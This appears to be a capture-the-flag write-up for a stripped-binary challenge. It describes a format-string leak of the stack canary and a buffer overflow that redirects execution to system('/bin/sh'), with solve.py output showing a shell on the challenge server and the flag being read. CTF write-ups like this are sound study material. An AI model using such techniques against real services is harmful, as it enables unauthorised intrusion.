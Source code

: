 # Remote Storage
* This is my first exploit of stripped binary
* I didn't solve this on time

---
## Binary Analysis
* login user and password is both "admin"
* using "system()" but we cant use "/", "\\" and "."
* fsb in function "sign file"
* bof in fuction "add info"

## Exploit Summery
1. login with (admin/admin)
2. leak canary(%95$x) & ret addr(%94 - 0x1cc)
3. overwrite ret addr to system(@ 0x8052cf0) + /bin/sh(@ 0x80C7B8C) using bof

```
$ python solve.py NOPTRACE
[+] Opening connection to 185.66.87.233 on port 5006: Done
[!] Skipping debug attach since context.noptrace==True
filedata: fuga
kkkk672227e
File sign: fff42a18.820be000."\x82Ӎfiles/hoge 

ret_addr:  0xfff4284c
canary:  0x820be000
[*] Switching to interactive mode
$ cat secret_app_key.txt
Aero{b87b6e63015e5710d6d003d64a29c253}
``` 
